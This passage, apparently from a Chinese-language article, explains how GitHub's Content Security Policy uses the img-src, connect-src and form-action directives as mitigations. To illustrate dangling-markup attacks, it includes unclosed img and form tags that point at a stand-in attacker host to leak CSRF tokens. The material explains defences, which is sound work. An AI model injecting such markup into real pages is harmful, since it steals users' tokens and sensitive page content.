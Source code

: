img-src
-------

与其它策略不同，`img-src`通常被关注的比较少。通过限制image的source，能够防止敏感信息泄露。比如当攻击者能够注入如下的img标签：

```
<img src='http://some_evil_site.com/log_csrf?html=

```

可以看到标签是未闭合的，这会导致在遇到下一个匹配的单引号之前的所有内容都会被当作是参数html的值，如果中间的内容包括一些敏感信息，如CSRF token：

```
<form action="https://github.com/account/public_keys/19023812091023">
...
<input type="hidden" name="csrf_token" value="some_csrf_token_value">
</form>

```

当img被加载时，则会导致这些内容被当作参数发送到`http://some_evilsite.com/`。

这样的标签被称为`dangling markup`，除了 img 标签之外，还有一些标签页能够窃取敏感信息。通过限制CSP 的 img-src，就能够缓解这样的情况。

connect-src
-----------

前面提到过，在标签的class为某些特殊值时，JavaScript会自动加载标签对应的URl资源，并修改DOM。通过限制`connect-src`（限制XMLHttpRequest, WebSocket, and EventSource 的连接） 到特定的 domain list，能够减少可能的攻击面（ attack surface）。比如向`api.braintreegateway.com`的连接只在支付相关的页面被允许。

当然，如果为每一个页面都手动添加`connect-src`，维护起来非常困难，GitHub使用了[Secure Headers library](https://github.com/twitter/secureheaders)来实现动态 CSP 策略调整，感兴趣的可以看看。

form-action
-----------

通过限制form表单可以提交的 action，可以降低`form`标签注入所带来的风险。与之前讨论的 "dangling markup" 标签 image 不同的是，form更加的微妙。比如攻击者能够注入如下的代码：

```
<form action="https://some_evil_site.com/log_csrf_tokens">

```

注入标签后的内容是一个form表单，如下：

```
<form action="https://github.com/account/public_keys/19023812091023">
...
<input type="hidden" name="csrf_token" value="afaffwerouafafaffasdsd">
</form>

```

因为注入的form标签没有闭合，浏览会向下寻找`</form>`，然后把之间的所有内容都作为表单的field，当用户点击提交时，一些敏感数据，比如csrf token就会发送到`https://some_evil_site.com/log_csrf_tokens`，导致信息泄露。

类似的通过`button`也可以完成：
